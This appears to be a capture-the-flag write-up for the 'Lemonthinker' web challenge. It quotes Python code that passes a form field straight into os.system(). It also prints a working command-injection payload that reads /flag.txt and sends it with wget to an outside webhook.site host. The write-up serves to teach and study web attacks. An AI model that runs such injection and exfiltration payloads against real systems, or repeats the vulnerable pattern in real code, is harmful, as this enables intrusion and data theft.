 ```yaml
---
grand_parent: Categories
parent: Web
title: Lemonthinker
nav_order: 1
---
```


# Lemonthinker

```
Challenge instance ready at 193.57.159.27:36679.

generate your lemonthinks here!
```

## Challenge

> TL;DR: Bash command injection.

The source code for this challenge isn't too long, which makes the glaring vulnerability even more obvious:

**Source**: `app/app.py`
```py
text = request.form.getlist('text')[0]
text = text.replace("\"", "")
filename = "".join(random.choices(chars,k=8)) + ".png"
os.system(f"python3 generate.py {filename} \"{text}\"")
```

That's right, the user-controlled variable `text` (coming from the HTTP parameter `text`) is being inserted directly into an `os.system()` function call. We can execute OS commands by wrapping them inside `$()`, such as `$(whoami)`.

Let's read the flag and exfiltrate to our external server. Send the following string in the 

```bash
$(cat /flag.txt | xargs -I{} wget "https://webhook.site/c6cf5fb0-9a87-439d-aa8c-4dfbb3a65fef/?flag={}")
```

<img src="images/lemonthinker-01.jpg">

:lemonthink: and the flag will be delivered 😎🚩

<img src="images/lemonthinker-02.jpg">

Flag: `rarctf{b451c-c0mm4nd_1nj3ct10n_f0r-y0u_4nd_y0ur-l3m0nth1nk3rs_d8d21128bf}`
